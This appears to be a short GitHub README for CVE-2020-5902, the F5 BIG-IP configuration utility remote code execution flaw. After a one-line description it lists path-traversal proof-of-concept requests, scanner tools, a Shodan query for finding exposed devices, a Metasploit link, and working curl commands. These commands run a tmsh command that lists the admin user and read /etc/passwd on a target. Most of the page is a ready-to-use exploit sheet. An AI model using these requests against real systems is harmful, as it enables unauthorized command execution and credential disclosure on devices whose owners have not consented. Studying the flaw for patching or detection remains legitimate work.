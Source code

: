 # CVE-2020-5902

## Description

In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), 
also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages.

## POC

#### GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
#### GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse

## Tools

- https://github.com/aqhmal/CVE-2020-5902-Scanner
- https://github.com/dunderhay/CVE-2020-5902
- https://gist.github.com/Mad-robot/e8c5a81c87d14c7fe0413be2e912141f
- Shodan Query: title:"BIG-IP`&reg;`- Redirect"

## Exploit
- https://github.com/rapid7/metasploit-framework/pull/13807
```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```
##### Read File:

```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

```
## Reference

https://www.youtube.com/watch?v=J7WG2iqu9wI
